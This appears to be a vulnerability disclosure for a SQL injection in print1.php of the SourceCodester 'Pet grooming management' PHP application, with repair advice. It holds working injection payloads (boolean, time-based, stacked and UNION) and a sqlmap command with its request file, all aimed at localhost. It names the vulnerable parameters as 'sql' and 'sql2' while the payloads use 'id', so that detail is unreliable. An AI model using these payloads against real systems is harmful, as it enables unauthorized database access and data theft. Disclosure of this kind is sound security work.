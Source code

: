 # Pet grooming management print1.php  v.1.0 sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'print1.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql","sql2" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "print1.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- UNION query
- stacked queries
- boolean-based blind

## Vulnerability location:

- 'sql','sql2' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://127.0.0.1/pet_grooming/admin/print1.php?id=' AND 8097=(SELECT (CASE WHEN (8097=8097) THEN 8097 ELSE (SELECT 8193 UNION SELECT 9429) END))-- oJLZ
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://127.0.0.1/pet_grooming/admin/print1.php?id=';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://127.0.0.1/pet_grooming/admin/print1.php?id=' AND (SELECT 6055 FROM (SELECT(SLEEP(5)))Xkso)-- XqjD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 18 columns
    Payload: http://127.0.0.1/pet_grooming/admin/print1.php?id=' UNION ALL SELECT NULL,NULL,CONCAT(0x7170706271,0x76534756724141484c764f55575a65756c6f4875526f7164634b55514270614e74554b4c4a697544,0x716b717671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250917114850.png](./assets/image-20250917114850.png)
 


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
GET /pet_grooming/admin/print1.php?id=* HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=9mjrub6b6jfcfhk0lv26kugff3
Connection: close

```

# Attack results


![image-20250917115038.png](./assets/image-20250917115038.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.